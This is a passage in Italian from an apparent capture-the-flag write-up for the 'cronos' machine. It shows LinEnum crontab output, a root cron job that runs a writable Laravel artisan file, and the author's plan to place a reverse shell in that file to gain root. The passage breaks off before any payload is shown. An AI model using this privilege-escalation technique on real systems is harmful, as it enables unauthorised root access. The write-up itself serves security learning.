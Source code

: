 Eseguiamo LinEnum.sh e alla voce corntab torivamo il seguente output

```bash
[-] Crontab contents:
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

la cosa interessante che vediamo che "php /var/www/laravel/artisan" 
viene eseguito ogni minuto con i privilegi di root
vedi dettgli per crontab:
https://tigr.net/3203/2014/09/13/getting-wordpress-cron-work-in-multisite-environment/

Se avvessimo i permessi di scrittura protemmo  modificare il contenuto del file artisan 
per inserire una il codice di una shell che punti alla nostra macchina di attacco, 
il codice verrà eseguito con i privilegi di root e ci avremmo cosi una shell privilegiata.

Verifichiamo che permessi abbiamo
https://www.andreaminini.com/linux/permessi-dei-file-su-linux 

```bash
www-data@cronos:/var/www/laravel$ ls -l
total 1988
-rw-r--r--  1 www-data www-data     727 Apr  9  2017 CHANGELOG.md
drwxr-xr-x  6 www-data www-data    4096 May 10  2022 app
-rwxr-xr-x  1 www-data www-data    1646 Apr  9  2017 artisan
```
Perfetto abbiamo i permessi di scrittura, quindi non ci resta che modificare il file 

```bash
www-data@cronos:/var/www/laravel$ cat artisan                                                                                                
#!/usr/bin/env php                                                                                                                           
<?php                                                                                                                                        
                                                 
/*                                                                                                                                           
|--------------------------------------------------------------------------                                                                  
| Register The Auto Loader                                                                                                                   
|--------------------------------------------------------------------------                                                                  
|                                                                                                                                            
| Composer provides a convenient, automatically generated class loader                                                                       
| for our application. We just need to utilize it! We'll require it                                                                          
```